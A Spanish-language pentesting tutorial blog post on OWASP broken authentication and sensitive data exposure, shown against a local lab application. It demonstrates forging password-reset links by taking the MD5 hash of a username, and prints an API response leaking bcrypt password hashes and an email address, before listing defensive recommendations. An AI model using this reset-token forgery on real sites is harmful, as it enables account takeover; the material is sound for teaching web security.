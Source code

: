 ```yaml
---
layout: post
title:  "Perdida de autenticacion y exposicion de datos"
description: "Explotando los 10 riesgos mas criticos segun el OWASP II"
date:   2019-07-11
image:  OwaspTopTen.jpg
tags:   [Aprende Hacking, Hacking NodeJS, Pentesting WEB]
---
```


Hello Engineers!  
En el dia de hoy, vamos a aprender acerca de una debilidad muy usual en las aplicaciones web.  
**A2-Broken Authentication**  
Este tipo de debilidad puede permitir a un atacante capturar u omitir los métodos de autenticación que usa una aplicación web.  
Para continuar, te invito a leer el siguiente [POST](https://hackingprofessional.github.io/Security/Como-realizar-una-inyeccion-SQL-OWASP-I) donde explico de manera detallada la configuracion del laboratorio con el que estaremos interactuando.  

## Conceptos Basicos  
Los desarrolladores frecuentemente crean esquemas personalizados de administración de sesión y autenticación, pero construirlos correctamente es difícil. Como resultado, estos esquemas personalizados con frecuencia tienen fallas en áreas como el cierre de sesión, la administración de contraseñas, los tiempos de espera, restauracion de contraseñas, la actualización de la cuenta, etc.  
A veces, encontrar tales fallas puede ser difícil, ya que cada implementación es única.  
Esto puede resultar en una autenticación rota que puede permitir que un atacante omita las restricciones de autenticación puestas por la aplicación.  

## Explotando las vulnerabilidades mas criticas en aplicaciones WEB.  
## A2: Broken Authentication  
**Escenario de la prueba:**   
Vamos a interactuar con un formulario de olvido de contraseñas.  

<figure>
  <img src="{{site.baseurl}}/img/ForgotPass.png" >
	<figcaption>
    <a href="{{site.baseurl}}/img/ForgotPass.png" title="Formulario olvido de contraseñas">Formulario olvido de contraseñas</a>.
  </figcaption>
</figure>

Luego de ingresar el usuario para el reseteo de su contraseña, nos llega el tipico correo de restauracion de cuentas.  

<figure>
  <img src="{{site.baseurl}}/img/EmailReceived.png" >
	<figcaption>
    <a href="{{site.baseurl}}/img/EmailReceived.png" title="Correo con link de reseteo de contraseña">Correo con link de reseteo de contraseña</a>.
  </figcaption>
</figure>

Para esta aplicacion, El link de restablecimiento de contraseña aparentemente es débil, el cual esta compuesto por el nombre del usuario con el que inicia sesion y un parámetro de token que esta en MD5 y este puede ser fácilmente calculado por un atacante.   

{% highlight bash %}  
http://127.0.0.1:9090/resetpw?login=GerhAdmin&token=7f73f68c7b6d18b0fd0de15806139d94
# URL DESCOMPUESTA
# login=GerhAdmin
# token=7f73f68c7b6d18b0fd0de15806139d94
{% endhighlight %}  

Este problema puede ser explotado por un atacante para restablecer la contraseña de cualquier usuario utilizando una URL como la siguiente:  

{% highlight markdown %} 
http://127.0.0.1:9090/resetpw?login=<username>&token=<md5(username)>
{% endhighlight %}  

Para obtener el hash de un texto podemos usar la herramienta **md5sum**.  

{% highlight zsh %}  
┌─[root@BinaryChaos] - [/home/gerh/Escritorio/Prometheus/Blog/Junio/DAMM] - [Sun Jun 30, 08:54]
└─[$]> # echo -n "GerhAdmin" | md5sum 
7f73f68c7b6d18b0fd0de15806139d94  -
{% endhighlight %}    

Listo una vez que tenemos el nombre del usuario en MD5, podemos facilmente restaurar la contraseña para cualquier usuario.  

<figure>
  <img src="{{site.baseurl}}/img/ResetPass.png" >
	<figcaption>
    <a href="{{site.baseurl}}/img/ResetPass.png" title="Reseteando la contraseña del usuario GerhAdmin">Reseteando la contraseña del usuario GerhAdmin</a>.
  </figcaption>
</figure>

## A3: Sensitive Data Exposure
La exposición de datos confidenciales se produce cuando los datos como contraseñas, tokens, roles, etc., están presentes o se filtran hacia donde no se pretende que estén.  
A continuacion, podemos visualizar una tabla con posible informacion de los usuarios registrados:  

<figure>
  <img src="{{site.baseurl}}/img/SensitiveData.png" >
	<figcaption>
    <a href="{{site.baseurl}}/img/SensitiveData.png" title="Tabla con usuarios registrados">Tabla con usuarios registrados</a>.
  </figcaption>
</figure>

Si interceptamos la peticion con burpsuite o analizamos las peticiones realizadas antes de renderizar la pagina, logramos identificar que para la visualizacion de los datos anteriores se utiliza una API.   

<figure>
  <img src="{{site.baseurl}}/img/SensitiveData2.png" >
	<figcaption>
    <a href="{{site.baseurl}}/img/SensitiveData2.png" title="Analizando las peticiones realizadas">Analizando las peticiones realizadas</a>.
  </figcaption>
</figure>

Si accedemos a la URL encontrada previamente, podemos notar que el API responde un JSON con informacion sensible.  
Cabe aclarar que entre los datos sensibles se encuentra las contraseñas de los usuarios, las cuales pueden descubiertas por un ataque de fuerza bruta.  
Si deseas saber como realizar este ataque, te invito al siguiente [Link]().  

El contenido de la URL **http://172.17.0.2:9090/app/admin/usersapi**, es el siguiente:  

{% highlight js %}  
{
    success: true,
    users: [{
            id: 1,
            name: "Admin",
            login: "Administrator",
            email: "Administrator@gerh.com",
            password: "$2a$10$hVTWi4gUzy5YFeKdP9wKyeg3x1oFMLiqAAAA22AVHen/Oy.L2UZVy",
            role: null,
            createdAt: "2019-06-30T13:23:02.485Z",
            updatedAt: "2019-06-30T13:23:02.485Z"
        },
        {
            id: 2,
            name: "Admin",
            login: "Admin",
            email: "Admin@gerh.com",
            password: "$2a$10$wLaDHz9N8EPGaH2gOFxMHek49lrgl1RecnbkERm5.8awMUB2XurSS",
            role: null,
            createdAt: "2019-06-30T13:50:19.383Z",
            updatedAt: "2019-06-30T13:50:19.383Z"
        },
        {
            id: 3,
            name: "Gerardo Eliasib",
            login: "GerhAdmin",
            email: "gerueda6@misena.edu.co",
            password: "$2a$10$8WHqEwOltdbk91GFxwLzk.OEVJrY3RgOHS/bJuv57H8LsFNqz.3iC",
            role: null,
            createdAt: "2019-06-30T14:22:53.790Z",
            updatedAt: "2019-06-30T14:22:53.790Z"
        }
    ]
}
{% endhighlight %}    

## Recomendaciones  
Como mínimo, siga las siguientes recomendaciones y consulte las referencias:  
  - Clasifique los datos procesados, almacenados o transmitidos por el sistema. Identifique qué información es sensible de acuerdo a las regulaciones, leyes o requisitos del negocio y del país.  
  - Aplique los controles adecuados para cada clasificación.  
  - No almacene datos sensibles innecesariamente. Descártelos tan pronto como sea posible o utilice un sistema de tokenizacion que cumpla con PCI DSS. Los datos que no se almacenan no pueden
ser robados.  
  - Cifre todos los datos sensibles cuando sean almacenados.  
  - Cifre todos los datos en tránsito utilizando protocolos seguros como TLS con cifradores que utilicen Perfect Forward Secrecy (PFS), priorizando los algoritmos en el servidor. Aplique el cifrado utilizando directivas como HTTP Strict Transport Security (HSTS).  
  - Utilice únicamente algoritmos y protocolos estándares y fuertes e implemente una gestión adecuada de claves. No cree sus propios algoritmos de cifrado.  
  - Deshabilite el almacenamiento en cache de datos sensibles.  
  - Almacene contraseñas utilizando funciones de hashing adaptables con un factor de trabajo (retraso) además de SALT, como Argon2, scrypt, bcrypt o PBKDF2.  
  - Verifique la efectividad de sus configuraciones y parámetros de forma independiente.  

## Aprende hacking explotando las vulnerabilidades mas criticas en aplicaciones WEB.  

 - [A1: Inyección](https://hackingprofessional.github.io/Security/Como-realizar-una-inyeccion-SQL-OWASP-I)   
 - [A2: Pérdida de Autenticación](https://hackingprofessional.github.io/Security/Perdida-de-autenticacion-y-exposicion-de-datos-OWASP-II)  
 - [A3: Exposición de datos sensibles](https://hackingprofessional.github.io/Security/Perdida-de-autenticacion-y-exposicion-de-datos-OWASP-II)  
 - [A4: Entidades Externas XML (XXE)](https://hackingprofessional.github.io/Security/Como-realizar-una-inyeccion-XML-OWASP-III)  
 - [A5: Pérdida de Control de Acceso](https://hackingprofessional.github.io/Security/Evadiendo-controles-de-acceso-OWASP-IV)  
 - [A6: Configuración de Seguridad Incorrecta](https://hackingprofessional.github.io/Security/El-riesgo-de-las-Configuraciones-Incorrectas-de-Seguridad-OWAPS-V/)  
 - [A7: Secuencia de Comandos en Sitios Cruzados (XSS)](https://hackingprofessional.github.io/Security/Aprende-a-realizar-una-inyeccion-XSS-OWASP-VI)  
 - [A8: Deserialización Insegura](https://hackingprofessional.github.io/Security/Aprende-que-es-Deserializacion-Insegura-OWASP-VII/)  
 - [A9: Componentes con vulnerabilidades conocidas](https://hackingprofessional.github.io/Security/Explotando-vulnerabilidades-conocidas-OWASP-VIII)  
 - [A10: Registro y Monitoreo Insuficientes](https://hackingprofessional.github.io/Security/Explotando-vulnerabilidades-conocidas-OWASP-VIII)  


 [Para mas informacion leer el siguiente PDF publicado por el OWASP](https://www.owasp.org/images/5/5e/OWASP-Top-10-2017-es.pdf)  